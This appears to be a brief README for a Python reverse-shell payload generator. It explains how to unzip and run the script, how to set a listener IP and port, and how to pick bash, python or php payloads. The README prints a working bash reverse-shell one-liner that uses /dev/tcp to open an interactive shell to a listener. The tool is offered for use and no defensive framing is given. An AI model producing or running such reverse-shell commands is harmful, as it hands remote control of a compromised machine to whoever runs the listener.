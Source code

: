 # revshell-generator
A simple  python reverse shell  payload generator script 
# unzip and run using python
  unzip revshellgen.zip

  now a folder extracted "dist" included script

  python sblsec.py

# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1
